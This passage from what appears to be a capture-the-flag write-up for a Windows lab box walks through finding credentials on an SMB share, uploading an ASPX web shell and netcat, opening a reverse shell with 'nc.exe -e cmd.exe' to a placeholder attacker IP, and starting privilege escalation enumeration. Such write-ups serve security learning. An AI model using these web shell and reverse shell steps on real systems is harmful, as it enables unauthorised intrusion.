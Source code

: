 ```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

I tried the passwords but no luck, maybe they are valid usernames but the passwords are useless, lets check the web page.

### http://MACHINE_IP/

`gobuster` couldn't find anything and `nikto` only reported the `TRACE` method i commented earlier as something "interesting" so lets check the other page.

### http://MACHINE_IP:49663/

`nikto` only reported the `TRACE` method again but `gobuster` reported `/nt4wrksv` path, the same as the SMB share. Maybe it is connected to it? I tried the path `/nt4wrksv/passwords.txt` and the page showed the file content, ok nice.

## Exploiting

### RCE

We have access to that share so... can we get a RCE? I uploaded `cmdasp.aspx` and there it was, allowing me to execute commands nice.

Now I will try to upload `nc.exe` to the share and get a proper reverse shell.

### Reverse shell!

First I had to find the directory, I was pretty lucky and I found it fast:
```
dir C:\inetpub\wwwroot\nt4wrksv
```
There it is, nc.exe. Lest try `nc.exe -e cmd.exe <Attacker_IP> <PORT>` with a netcat listener in our site. After some try and error I tried with the port 443 to avoid possible firewalls aaaand the shell came back cool.

#### User flag

The user flag was in Bob directory. Just execute `more C:\Users\Bob\Desktop\user.txt`:
```
THM{*******************************}
```
## Privesc

I tried to execute `winpeas` to check for privesc vectors but to be honest wasn't a good idea. I don't know why but this box is really slow sometimes and it hanged. Sooo i tried some manual enumeration:

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled <----
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```